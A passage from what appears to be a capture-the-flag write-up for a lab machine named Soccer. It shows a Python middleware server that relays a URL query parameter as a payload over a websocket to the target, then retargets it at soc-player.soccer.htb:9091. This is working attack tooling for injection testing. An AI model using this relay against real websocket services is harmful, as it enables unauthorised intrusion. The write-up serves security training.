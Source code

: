 ```python
	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

We have to adapt and change the target server (as provided from the javascript code):

```python
# ws_server = "ws://localhost:8156/ws"
ws_server = "ws://soc-player.soccer.htb:9091/"
```
And correc parameter name:
